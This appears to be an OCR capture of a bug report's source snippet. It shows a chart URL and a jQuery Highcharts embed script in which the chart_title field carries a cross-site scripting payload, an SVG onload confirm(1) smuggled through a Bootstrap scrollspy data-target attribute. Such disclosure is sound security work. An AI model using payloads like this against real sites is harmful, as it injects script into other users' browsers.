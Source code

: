 <redacted>

url=/chart_data%2Fmetric_charts%2Fsingle_metric.json...<redacted>&chart_title=title
 
<script type='text/javascript'>
      jQuery(function($) {
        var loadChart = function() {
          $('#embedded-chart').highcharts({
            height: '100%',
            dataUrl: '/public/charts/jwBDr0K0WhZ/data.json',
            render: true,
            fluid: true,
            loadingOverlay: true,
            snappable: true,
            chart_title: "<Brute Data-Spy=scroll Data-Target='<Svg OnLoad=(confirm)(1)>'>",
            liveChart: false,
            dataApiUrl: '',
            zoom_url: '',
            dataApiField: '',
            addToDashboard: true,
            embeddable: true
          });
        };
        jQuery.rpm.highcharts.registerRender(loadChart);
      });
    </script>
